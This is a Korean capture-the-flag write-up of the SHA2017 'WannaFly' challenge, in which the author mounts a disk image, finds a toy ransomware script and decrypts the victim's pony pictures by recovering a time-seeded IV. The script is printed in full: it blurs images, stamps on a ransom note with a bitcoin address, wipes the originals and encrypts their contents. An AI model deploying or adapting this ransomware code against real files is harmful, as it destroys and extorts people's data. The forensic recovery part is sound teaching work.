

문제내용
==============================================================

My daughter Kimberly her computer got hacked. Now she lost all her favorite images. 
Can you please help me recover those images? 

문제 풀이
==============================================================

파일을 받아 압축을 해제해보니 이미지 파일으로 보인다.

.. code-block:: console

    $ file kimberly.img
    kimberly.img: Linux rev 1.0 ext4 filesystem data, UUID=56e89f54-c4da-4c5e-a3c6-67398d341788 (extents) (large files) (huge files)

이미지를 마운트 시킨 후 파일 정보를 확인해보니 여러개의 이미지 파일과 .bash_history, ...파일 등이 보입니다.

.. code-block:: console

    $ sudo mount kimberly.img ctf_mount
    $ ls -alR ctf_mount/
    ctf_mount/:
    total 34
    drwxr-xr-x 12   1001   1001  1024 Jun 20 09:55 .
    drwxrwxr-x 10 joizel joizel  4096 Aug  6 17:11 ..
    -rwxr-xr-x  1   1001   1001  6835 Jun 20 09:13 ...
    -rw-------  1   1001   1001    69 Jan 18  2017 .bash_history
    drwx------  2   1001   1001  1024 Jan 18  2017 .cache
    drwxrwxr-x  2   1001   1001  1024 Jan 18  2017 Desktop
    drwxrwxr-x  2   1001   1001  1024 Jan 18  2017 Documents
    drwxrwxr-x  2   1001   1001  1024 Jan 18  2017 Downloads
    drwx------  2 root   root   12288 Jan 18  2017 lost+found
    drwxrwxr-x  2   1001   1001  1024 Jan 18  2017 Music
    drwxrwxr-x  2   1001   1001  1024 Jun 20 08:04 Pictures
    drwxrwxr-x  2   1001   1001  1024 Jan 18  2017 Public
    drwxrwxr-x  2   1001   1001  1024 Jan 18  2017 Templates
    drwxrwxr-x  2   1001   1001  1024 Jan 18  2017 Videos
    ls: cannot open directory 'ctf_mount/.cache': Permission denied

    ctf_mount/Desktop:
    total 2
    drwxrwxr-x  2 1001 1001 1024 Jan 18  2017 .
    drwxr-xr-x 12 1001 1001 1024 Jun 20 09:55 ..

    ctf_mount/Documents:
    total 2
    drwxrwxr-x  2 1001 1001 1024 Jan 18  2017 .
    drwxr-xr-x 12 1001 1001 1024 Jun 20 09:55 ..

    ctf_mount/Downloads:
    total 2
    drwxrwxr-x  2 1001 1001 1024 Jan 18  2017 .
    drwxr-xr-x 12 1001 1001 1024 Jun 20 09:55 ..
    ls: cannot open directory 'ctf_mount/lost+found': Permission denied

    ctf_mount/Music:
    total 2
    drwxrwxr-x  2 1001 1001 1024 Jan 18  2017 .
    drwxr-xr-x 12 1001 1001 1024 Jun 20 09:55 ..

    ctf_mount/Pictures:
    total 29123
    drwxrwxr-x  2 1001 1001    1024 Jun 20 08:04 .
    drwxr-xr-x 12 1001 1001    1024 Jun 20 09:55 ..
    -rw-r--r--  1 1001 1001 1040070 Jun 20 09:14 78d14f37ae413511b119776c2294c414.png
    -rw-r--r--  1 1001 1001 1747640 Jun 20 09:14 8210680-Palomino-Shetland-pony-Equus-caballus-3-years-old-standing-in-front-of-white-background-Stock-Photo.png
    -rw-r--r--  1 1001 1001 1262073 Jun 20 09:14 8210722-Palomino-Shetland-pony-Equus-caballus-3-years-old-standing-in-front-of-white-background-Stock-Photo.png
    -rw-r--r--  1 1001 1001 2194500 Jun 20 09:14 bay_pony_cantering_2_by_tamacilo.png
    -rw-r--r--  1 1001 1001 2144707 Jun 20 09:14 bay_pony_rolling2_by_tamacilo.png
    -rw-r--r--  1 1001 1001 1316679 Jun 20 09:14 connemara_pony2_750.png
    -rw-r--r--  1 1001 1001  645968 Jun 20 09:14 dappled-pony.png
    -rw-r--r--  1 1001 1001  947739 Jun 20 09:14 f09086061f03f080d0851d9154e11653.png
    -rw-r--r--  1 1001 1001 1564211 Jun 20 09:14 Het-verschil-tussen-een-pony-en-een-shetland-pony.png
    -rw-r--r--  1 1001 1001 1442577 Jun 20 09:14 oli.png
    -rw-r--r--  1 1001 1001  947331 Jun 20 09:14 Peppermint-Pony.png
    -rw-r--r--  1 1001 1001 3478821 Jun 20 09:14 pony.png
    -rw-r--r--  1 1001 1001 1916939 Jun 20 09:14 pony_shutterstock_50279794.png
    -rw-r--r--  1 1001 1001 1910486 Jun 20 09:14 shetlander-pony.png
    -rw-r--r--  1 1001 1001  832413 Jun 20 09:14 shutterstock_146544482-680x400.png
    -rw-r--r--  1 1001 1001 2111020 Jun 20 09:14 white-pony-951772_960_720.png
    -rw-r--r--  1 1001 1001 4308839 Jun 20 09:14 Wild_Pony_Assateague.png

    ctf_mount/Public:
    total 2
    drwxrwxr-x  2 1001 1001 1024 Jan 18  2017 .
    drwxr-xr-x 12 1001 1001 1024 Jun 20 09:55 ..

    ctf_mount/Templates:
    total 2
    drwxrwxr-x  2 1001 1001 1024 Jan 18  2017 .
    drwxr-xr-x 12 1001 1001 1024 Jun 20 09:55 ..

    ctf_mount/Videos:
    total 2
    drwxrwxr-x  2 1001 1001 1024 Jan 18  2017 .
    drwxr-xr-x 12 1001 1001 1024 Jun 20 09:55 ..

이미지 파일을 확인해보니 wannaflty라는 랜섬웨어에 감염.

위에서 의심스러웠던 ...파일을 먼저 확인해보면 암호화를 진행한 코드를 확인할 수 있다.

.. code-block:: python

    #!/usr/bin/env python

    import random, string, sys, os
    from time import time
    from Crypto.Cipher import AES
    import base64
    from PIL import Image
    from PIL import ImageFont
    from PIL import ImageDraw
    from PIL import ImageFilter
    import textwrap
    from io import BytesIO

    IMG="""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"""

    MSG="""This Image is encrypted by WannaFly Ransom-ware. If you want your original image back, feel free to contact us on sha2017ctf@gmail.com and make a bitcoin payment of 0.1 bitcoin to address 1QCc1EYncxTeSfTKpaCZ2hvMDwXULKRVWe"""

    def get_iv():
        iv = ""
        random.seed(int(time()))
        for i in range(0,16):
            iv += random.choice(string.letters + string.digits)
        return iv

    def encrypt(m, p):
        iv=get_iv()
        aes = AES.new(p, AES.MODE_CFB, iv)
        return base64.b64encode(aes.encrypt(m))

    def decrypt(m, p, i):
        aes = AES.new(p, AES.MODE_CFB, i)
        return aes.decrypt(base64.b64decode(m))

    def find_images():
        i = []
        #for r, d, f in os.walk(os.environ['HOME']):
        for r, d, f in os.walk("."):
            for g in f:
                if g.endswith(".png"):
                    i.append((os.path.join(r, g)))
        return i

    def encrypt_images():
        for i in find_images():
            img = Image.open(i).filter(ImageFilter.GaussianBlur(radius=18))
            draw = ImageDraw.Draw(img)
            font = ImageFont.truetype("/usr/share/fonts/truetype/freefont/FreeSans.ttf", 18)
            text = textwrap.wrap(MSG, width=60)
            W, H = img.size
            bird = Image.open(BytesIO(base64.b64decode(IMG)))
            bw, bh = bird.size
            offset = ((W-bw)/2, (H-bh)/2 - 80)
            img.paste(bird, offset, bird)
            pad = 0
            for line in text:
                w, h = draw.textsize(line, font=font)
                draw.text(((W-w)/2, (H-h)/2 + pad), line, font=font, fill="white")
                pad += 20
            img.save('/tmp/sha.png')
        encrypt_image(i)

    def encrypt_image(img):
        data = open(img, 'r').read()
        encrypted_img = encrypt(data, sys.argv[1])
        blurred_img = open('/tmp/sha.png', 'r').read()
        stat = os.stat(img)
        with open(img, 'r+') as of:
            of.write('\0' * stat.st_size)
            of.flush()
        open(img, 'w').write(blurred_img + "\n" + encrypted_img)

    if __name__ == '__main__':
        if len(sys.argv) != 2:
            print "Usage: %s <pass>" % sys.argv[0]
        else:
            encrypt_images()

해당 소스코드를 보면 sys.argv[1]이 plain값으로 보이는데 해당 소스에는 그에 관한 정보가 없다.
.bash_history를 확인해본 결과 해당 plain값이 존재하는 것을 확인할 수 있다.

.. code-block:: console

    unset HISTFIL
    ls -la
    pwd
    chmod +x ...
    ./... Hb8jnSKzaNQr5f7p
    ls -Rla

여기서 한가지 더 문제는 iv값을 모른다는 것인데, 소스를 보면 get_iv를 구할 때 random.seed()를 time()으로 계산되는 것을 볼 수 있다.
random.seed()를 주면 random이더라도 일정한 랜덤값을 주기 때문에 암호화될 때 시간을 알면 해당 iv값을 알 수 있다.
암호화가 진행된 시간은 해당 이미지 파일이 수정된 시간이므로, 이미지 파일이 수정된 시간을 확인한다.

.. code-block:: python

    from time import time
    import random, string
    import os

    replace_time = os.stat("78d14f37ae413511b119776c2294c414.png").st_mtime
    print int(replace_time)
    random.seed(int(replace_time))
    iv = ""
    for i in range(0,16):
        iv += random.choice(string.letters + string.digits)
    print iv 

    # 1497975280
    # QlPhcD7gsmdZaAQW

해당 iv값과 plain값을 이용해서 이미지 파일을 복호화하면 정상적인 이미지가 나온다.

.. code-block:: python

    import base64
    from Crypto.Cipher import AES

    def get_iv(t):
        iv = ""
        random.seed(t)
        for i in range(0,16):
            iv += random.choice(string.letters + string.digits)
        return iv

    def decrypt(m, p, i):
        aes = AES.new(p, AES.MODE_CFB, i)
        return aes.decrypt(base64.b64decode(m))

    plain = "Hb8jnSKzaNQr5f7p"
    replace_time = os.stat("78d14f37ae413511b119776c2294c414.png").st_mtime
    iv = get_iv(replace_time)
    data = open("78d14f37ae413511b119776c2294c414.png", 'rb').read()
    end = data.index('IEND')+9
    data = data[end:]
    decrypted_img = decrypt(data, plain, iv)
    open("78d14f37ae413511b119776c2294c414.png"+"_flag.png", 'wb').write(decrypted_img)

위와 같은 방식으로 전체 파일에 대해 복호화를 진행하면 플래그 획득
